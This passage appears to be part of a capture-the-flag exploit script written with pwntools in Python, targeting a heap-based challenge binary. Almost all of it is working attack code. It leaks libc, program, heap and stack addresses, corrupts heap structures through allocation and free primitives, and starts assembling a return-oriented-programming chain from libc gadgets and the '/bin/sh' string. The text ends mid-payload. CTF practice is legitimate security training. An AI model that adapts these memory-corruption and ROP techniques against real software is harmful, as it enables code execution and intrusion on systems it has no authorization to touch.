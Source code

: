 ```py

text_ptr = libc.address + (0x7ffff7beadb0 - 0x7ffff7800000)
create(text_ptr) # 4

p.recvline()
text_base = u64(p.recv(6).ljust(8, b'\x00')) - (0x555555603040 - 0x555555400000)
print("[i] .text:", hex(text_base))

storage_array = text_base + (0x555555603060 - 0x555555400000)
print("[i] Strorage:", hex(storage_array))

payload  = p64(0) 
payload += p64(5)
payload  = p64(6) * 16
payload += p64(storage_array)

write(3, p64(0))

free(1)
write(1, payload)

create(0x98)

fd_addr = p64(heap + 0x1270)

payload  = fd_addr
payload += p64(libc.sym.environ) 
payload += p64(storage_array) * 2

write(4, payload)

read_flag(1)
p.recvline()
p.recvline()
fd = u64(p.recvline().strip().ljust(8, b'\x00')) 
print("[i] FD:", hex(fd))

write(1, p64(0xdeadbeef))

read_flag(2)
p.recvline()
p.recvline()
stack = u64(p.recv(6).ljust(8, b'\x00')) - (0x7fffffffdcd8 - 0x7fffffffdbe8) - 8
print("[i] Stack:", hex(stack))

payload  = p64(stack) * 4

write(4, payload)

rop_libc = ROP(libc)
pop_rdi  = p64(rop_libc.find_gadget(['pop rdi', 'ret'])[0])
pop_rsi  = p64(rop_libc.find_gadget(['pop rsi', 'ret'])[0])
pop_rdx  = p64(rop_libc.find_gadget(['pop rdx', 'ret'])[0])
binSh    = p64(next(libc.search(b"/bin/sh")))

fd_addr = p64(heap + 0x1270 - 0x68)
writable_addr = p64(heap + 0x2000)

payload  = p64(0)
payload += pop_rdi
payload += p64(fd)
payload += pop_rsi
payload += writable_addr
```